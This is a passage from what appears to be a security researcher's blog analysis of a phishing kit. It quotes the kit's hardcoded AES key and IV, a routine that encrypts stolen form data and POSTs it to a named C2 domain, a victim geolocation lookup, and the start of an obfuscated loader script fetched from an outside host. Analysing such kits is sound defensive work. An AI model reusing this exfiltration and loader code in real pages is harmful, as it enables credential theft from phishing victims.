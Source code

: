 ```javascript
const key = CryptoJS.enc.Utf8.parse('1234567890123456');
const iv  = CryptoJS.enc.Utf8.parse('1234567890123456');
```

It is used to encrypt data using the ```CryptoJS``` module before exfiltrating it to a C2 Server as seen below. The effective data is sent to ```https://rJBmUQXjhwSvq6onCNpprI7lTSOVnaHAi8yXPZQL9XtNgsLTPKT.fronziia.digital/anUTVzUSwDygTziajkJgeRCVXASDCNRTNLOHVDBTIQGCVXH``` over the previously defined AES-CBC using a POST-Request.

```javascript
var sendAndReceive = (route, args, getresponse) => {
  if(requestsent == true && route !== "twofaselect") { ... }
  let encrypteddata = encryptData(formattedargs);
  $.ajax({
    url: '' + randroute,
    type: 'POST',
    data: { data: encrypteddata },
    success: function(response) {
      let decryptedresp = JSON.parse(decryptData(response));
    }
  });
}
```

It also GET requests ```https://get.geojs.io/v1/ip/geo.json``` to get the ASN and geolocation of the victim.

Ok good we covered all important code. Right? Nope. There is more. Remember the previous html source code? Yep. At the top there is still an external javascript which is loaded at pageload. This is the one I mean:

```html
<script src="https://baddy038939399388338389.z13.web.core.windows.net"></script>
```

First of all, my props go out to the threat actors (probably bigofficeboy??) for this cool domainname 😂. I quickly requested the given url and got a text/html response with an obfuscated js. Seamingly using XOR. Lets go through it.

```javascript
(function (C, p) {
  var c = C();
  function V(C, p) {
    return M(p - -0x170, C);
  }
  while (!![]) {
    try {
      var P =
        (-parseInt(V(-0xc, -0x3)) / 0x1) * (parseInt(V(0xe, 0x1b)) / 0x2) +
        (-parseInt(V(0x10, 0x1e)) / 0x3) * (-parseInt(V(-0x5, 0xd)) / 0x4) +
        (parseInt(V(0x22, 0x1f)) / 0x5) * (parseInt(V(0x2, 0x5)) / 0x6) +
        (parseInt(V(0x1c, 0x18)) / 0x7) * (-parseInt(V(0x12, 0x1c)) / 0x8) +
        (parseInt(V(0xf, 0x13)) / 0x9) * (-parseInt(V(0xf, 0x17)) / 0xa) +
        (parseInt(V(0x8, 0x6)) / 0xb) * (parseInt(V(0x23, 0x12)) / 0xc) +
        parseInt(V(0xe, 0x2)) / 0xd;
      if (P === p) break;
      else c["push"](c["shift"]());
    } catch (r) {
      c["push"](c["shift"]());
    }
  }
})(I, 0x20899);
function M(J, G) {
  var m = I();
  return (
    (M = function (W, L) {
      W = W - 0x16d;
```